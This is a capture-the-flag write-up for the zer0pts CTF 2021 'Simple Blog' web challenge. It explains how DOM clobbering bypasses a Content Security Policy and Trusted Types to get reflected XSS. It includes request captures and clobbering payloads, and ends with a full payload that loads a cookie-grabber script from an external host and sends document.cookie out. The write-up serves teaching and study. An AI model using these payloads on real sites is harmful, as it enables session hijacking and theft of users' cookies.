



# zer0pts CTF 2021 – Simple Blog

* **Category:** web
* **Points:** 192

## Challenge

> Now I am developing a blog service. I'm aware that there is a simple XSS. However, I introduced strong security mechanisms, named Content Security Policy and Trusted Types. So you cannot abuse the vulnerability in any modern browsers, including Firefox, right?
> 
> http://web.ctf.zer0pts.com:8003/
> 
> author:st98

## Solution

The challenge gives you an [attachment](simple_blog_1bfee2f68d1fbeec74729e11cae31aab.tar.gz) containing the source code. The most important files are [`index.php`](simple_blog/web/www/index.php) and [`api.php`](simple_blog/web/www/api.php).

Analyzing the website, you can discover the following message under the "Report Vulnerability" section.

> If you find a vulnerability in my blog platform, please report a Proof of Concept that exfiltrates document.cookie to me. I will check the URL with Mozilla Firefox later.
> 
> I only accept reports under /index.php, so please submit only GET paremeters. For example, if the URL you want to submit is http://example.com/index.php?theme=light, please submit only theme=light part.

So, given this message and the challenge description, it's pretty obvious that the target of the challenge is to exploit some sort of *Reflected XSS*.

The website allows the possibility to change the theme via a URL parameter.

Passing a value for the `theme` parameter will reflect the passed value in some parts of the webpage.

```
GET /?theme=foo HTTP/1.1
Host: web.ctf.zer0pts.com:8003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 01:17:41 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 2957
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Simple Blog</title>
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-DZ5mzla/D4n5wZNlTB5qQwurzU4=' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
    <link rel="stylesheet" href="/css/bootstrap-foo.min.css">
    <link rel="stylesheet" href="/css/style.css">
  </head>
  <body>
    <div class="container">
      <nav class="navbar navbar-expand-lg navbar-foo bg-foo">
        <a class="navbar-brand" href="/">Simple Blog</a>
        <ul class="navbar-nav mr-auto">
          <li class="nav-item"><a class="nav-link" href="/report.php">Report Vulnerability</a></li>
        </ul>
        <ul class="navbar-nav">
          <li class="nav-item"><a class="nav-link" href="/?theme=dark">Toggle theme</a></li>
        </ul>
      </nav>
    </div>
    <main class="container" id="main">
      <div class="spinner-border" id="loading">
        <span class="sr-only">Loading...</span>
      </div>
    </main>
    <script src="/js/trustedtypes.build.js" nonce="DZ5mzla/D4n5wZNlTB5qQwurzU4=" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
    <script nonce="DZ5mzla/D4n5wZNlTB5qQwurzU4=">
    // JSONP
    const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }

      document.body.appendChild(s);
    };

    // render articles
    const render = articles => {
      const main = document.getElementById('main');
      const loading = document.getElementById('loading');

      articles.sort((a, b) => a.id - b.id);
      for (const article of articles) {
        const elm = document.createElement('article');
        elm.classList.add('blog-post');

        const title = document.createElement('h2');
        title.innerHTML = article.title;
        elm.appendChild(title);

        const content = document.createElement('p');
        content.innerHTML = article.content;
        elm.appendChild(content);

        main.appendChild(elm);
      }

      loading.remove();
    };

    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
  </body>
</html>
```

You can pass a `callback` parameter to the [`api.php`](simple_blog/web/www/api.php) endpoint and the method will be reflected into the output. The length limit is 20 chars.

```
GET /api.php?callback=foo HTTP/1.1
Host: web.ctf.zer0pts.com:8003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: */*
Referer: http://web.ctf.zer0pts.com:8003/
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close


HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 01:08:52 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 569
Connection: close
Content-Type: application/javascript

foo([{"id":1,"title":"Hello, world!","content":"Welcome to my blog platform!"},{"id":2,"title":"Lorem ipsum","content":"Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."}])
```

Theoretically, the following payload would give an XSS, but it is blocked by the CSP.

```
GET /?theme=dark.min.css"><script>alert()</script>< HTTP/1.1
Host: web.ctf.zer0pts.com:8003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 01:19:19 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 3065
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Simple Blog</title>
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-gGLouNdYKt4a0tKHwIOwMDc9Giw=' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
    <link rel="stylesheet" href="/css/bootstrap-dark.min.css"><script>alert()</script><.min.css">
    <link rel="stylesheet" href="/css/style.css">
  </head>
  <body>
    <div class="container">
      <nav class="navbar navbar-expand-lg navbar-dark.min.css"><script>alert()</script>< bg-dark.min.css"><script>alert()</script><">
        <a class="navbar-brand" href="/">Simple Blog</a>
        <ul class="navbar-nav mr-auto">
          <li class="nav-item"><a class="nav-link" href="/report.php">Report Vulnerability</a></li>
        </ul>
        <ul class="navbar-nav">
          <li class="nav-item"><a class="nav-link" href="/?theme=dark">Toggle theme</a></li>
        </ul>
      </nav>
    </div>
    <main class="container" id="main">
      <div class="spinner-border" id="loading">
        <span class="sr-only">Loading...</span>
      </div>
    </main>
    <script src="/js/trustedtypes.build.js" nonce="gGLouNdYKt4a0tKHwIOwMDc9Giw=" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
    <script nonce="gGLouNdYKt4a0tKHwIOwMDc9Giw=">
    // JSONP
    const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }

      document.body.appendChild(s);
    };

    // render articles
    const render = articles => {
      const main = document.getElementById('main');
      const loading = document.getElementById('loading');

      articles.sort((a, b) => a.id - b.id);
      for (const article of articles) {
        const elm = document.createElement('article');
        elm.classList.add('blog-post');

        const title = document.createElement('h2');
        title.innerHTML = article.title;
        elm.appendChild(title);

        const content = document.createElement('p');
        content.innerHTML = article.content;
        elm.appendChild(content);

        main.appendChild(elm);
      }

      loading.remove();
    };

    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
  </body>
</html>
```

The CSP is the following (defined in the `meta` tag of [`index.php`](simple_blog/web/www/index.php)) and it can't be bypassed easily.

```
default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-gGLouNdYKt4a0tKHwIOwMDc9Giw=' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default
```

First of all: you have to use Firefox for your testing phase, because the admin will use that browser.

The most important part of [`index.php`](simple_blog/web/www/index.php) is the following JavaScript.

```javascript
    // JSONP
    const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }

      document.body.appendChild(s);
    };

    // render articles
    const render = articles => {
      const main = document.getElementById('main');
      const loading = document.getElementById('loading');

      articles.sort((a, b) => a.id - b.id);
      for (const article of articles) {
        const elm = document.createElement('article');
        elm.classList.add('blog-post');

        const title = document.createElement('h2');
        title.innerHTML = article.title;
        elm.appendChild(title);

        const content = document.createElement('p');
        content.innerHTML = article.content;
        elm.appendChild(content);

        main.appendChild(elm);
      }

      loading.remove();
    };

    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
```

The process works as follow:
1. a [`trusted-types`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/trusted-types) policy is created;
2. the `jsonp` method is invoked;
3. the `jsonp` method calls [`api.php`](simple_blog/web/www/api.php) passing the content of `window.callback`, if specified;
4. [`api.php`](simple_blog/web/www/api.php) returns a JavaScript snippet that will be included in the webpage and it will be executed, because it is considered "safe" for all defined policies;
5. the default method that will be executed is the `render` one, that will print blog posts into the page.

As a consequence, if it is possible to define `window.callback` you can execute an arbitrary JavaScript payload.

This can be achieved with a technique called [*DOM clobbering*](https://portswigger.net/web-security/dom-based/dom-clobbering). With this technique, the `window.callback` can be the reference to an HTML object with `id="callback"`, so a payload like the following can be used.

```
GET /?theme=dark.min.css%22%3E%3Cdiv+id=%22callback%22%3Efoo%3C/div%3E%3C HTTP/1.1
Host: web.ctf.zer0pts.com:8003
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 01:33:35 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 3077
Connection: close
Content-Type: text/html; charset=UTF-8

<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>Simple Blog</title>
    <meta http-equiv="Content-Security-Policy" content="default-src 'self'; object-src 'none'; base-uri 'none'; script-src 'nonce-uA0mbXM3XN0qqrr9Ln1E26ka/tE=' 'strict-dynamic'; require-trusted-types-for 'script'; trusted-types default">
    <link rel="stylesheet" href="/css/bootstrap-dark.min.css"><div id="callback">foo</div><.min.css">
    <link rel="stylesheet" href="/css/style.css">
  </head>
  <body>
    <div class="container">
      <nav class="navbar navbar-expand-lg navbar-dark.min.css"><div id="callback">foo</div>< bg-dark.min.css"><div id="callback">foo</div><">
        <a class="navbar-brand" href="/">Simple Blog</a>
        <ul class="navbar-nav mr-auto">
          <li class="nav-item"><a class="nav-link" href="/report.php">Report Vulnerability</a></li>
        </ul>
        <ul class="navbar-nav">
          <li class="nav-item"><a class="nav-link" href="/?theme=dark">Toggle theme</a></li>
        </ul>
      </nav>
    </div>
    <main class="container" id="main">
      <div class="spinner-border" id="loading">
        <span class="sr-only">Loading...</span>
      </div>
    </main>
    <script src="/js/trustedtypes.build.js" nonce="uA0mbXM3XN0qqrr9Ln1E26ka/tE=" data-csp="require-trusted-types-for 'script'; trusted-types default"></script>
    <script nonce="uA0mbXM3XN0qqrr9Ln1E26ka/tE=">
    // JSONP
    const jsonp = (url, callback) => {
      const s = document.createElement('script');

      if (callback) {
        s.src = `${url}?callback=${callback}`;
      } else {
        s.src = url;
      }

      document.body.appendChild(s);
    };

    // render articles
    const render = articles => {
      const main = document.getElementById('main');
      const loading = document.getElementById('loading');

      articles.sort((a, b) => a.id - b.id);
      for (const article of articles) {
        const elm = document.createElement('article');
        elm.classList.add('blog-post');

        const title = document.createElement('h2');
        title.innerHTML = article.title;
        elm.appendChild(title);

        const content = document.createElement('p');
        content.innerHTML = article.content;
        elm.appendChild(content);

        main.appendChild(elm);
      }

      loading.remove();
    };

    // initialize blog
    const init = () => {
      // try to register trusted types
      try {
        trustedTypes.createPolicy('default', {
          createHTML(url) {
            return url.replace(/[<>]/g, '');
          },
          createScriptURL(url) {
            if (url.includes('callback')) {
              throw new Error('custom callback is unimplemented');
            }

            return url;
          }
        });
      } catch {
        if (!trustedTypes.defaultPolicy) {
          throw new Error('failed to register default policy');
        }
      }

      // TODO: implement custom callback
      jsonp('/api.php', window.callback);
    };

    init();
    </script>
  </body>
</html>
```

But this will trigger the error: `custom callback is unimplemented`. That happens because, in the CSP, there is the definition of `default` trusted type which is defined in the `init()` JavaScript function in the page.



The *DOM clobbering* technique can help you again. Here some references that can be useful to understand how it works:
* [https://portswigger.net/web-security/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
* [https://portswigger.net/research/dom-clobbering-strikes-back](https://portswigger.net/research/dom-clobbering-strikes-back)
* [https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94](https://medium.com/@terjanq/dom-clobbering-techniques-8443547ebe94)
* [https://medium.com/@terjanq/clobbering-the-clobbered-vol-2-fb199ad7ec41](https://medium.com/@terjanq/clobbering-the-clobbered-vol-2-fb199ad7ec41)

The first step is to inject via *DOM clobbering* a `trustedType` object in order to override the one provided by the library. An exception will be thrown and the `catch` in the `init()` method will be reached. To bypass the `if` clause inside the `catch`, it is sufficient to use again the *DOM clobbering*, using a payload like the following.

```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><"
```

Now you can call the the api.php endpoint specifying a callback. A payload like the following can give a basic XSS.

```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=callback href=//%250Aalert();></a><"
```

Beacause the result request will be the following.

```
GET /api.php?callback=//%0Aalert(); HTTP/1.1
Host: web.ctf.zer0pts.com:8003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept: */*
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://web.ctf.zer0pts.com:8003/?theme=dark.min.css%22%3E%3Cform%20id=trustedTypes%3E%3Coutput%20id=defaultPolicy%3Etrue%3C/output%3E%3C/form%3E%3Ca%20id=callback%20href=//%250Aalert();%3E%3C/a%3E%3C%22

HTTP/1.1 200 OK
Date: Sat, 06 Mar 2021 14:03:22 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.13
Vary: Accept-Encoding
Content-Length: 577
Connection: close
Content-Type: application/javascript

//
alert();([{"id":1,"title":"Hello, world!","content":"Welcome to my blog platform!"},{"id":2,"title":"Lorem ipsum","content":"Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum."}])
```

You can use `jsonp` method itself to perform cross-origin request, getting the URL via *DOM clobbering* to bypass the maximum length.

```html
dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=x href=https://<REDACTED>.free.beeceptor.com/></a><a id=callback href=//%250Ajsonp(x);></a><"
```

Analyzing the final webpage after the request, you can discover that with `jsonp` method the response of the cross-origin call is included in the page source and treated like an allowed JavaScript.



So you can create two endpoints:
* `/evil/` that will be called by the `jsonp` method and will return a cookie grabber script;
* `/cookie/` that will be called by the cookie grabber script to exfiltrate cookies.

The cookie grabber script is the following. You have to set `Content-Type: application/javascript`.

```javascript
document.location='https://<REDACTED>.free.beeceptor.com/cookie/'+btoa(document.cookie)
```

So the final payload to submit is the following.

```html
theme=dark.min.css"><form id=trustedTypes><output id=defaultPolicy>true</output></form><a id=x href=https://<REDACTED>.free.beeceptor.com/evil/></a><a id=callback href=//%250Ajsonp(x);></a><"
```

Under the `/cookie/` endpoint you will find the base64 encoded cookies with the flag.



```
ZmxhZz16ZXIwcHRzezFfdzRudF90MF9lNHRfZDBtX2QwbV9oNG1idXJnZXJfczBtZWQ0eX0=
```

Decoding it.

```
flag=zer0pts{1_w4nt_t0_e4t_d0m_d0m_h4mburger_s0med4y}
```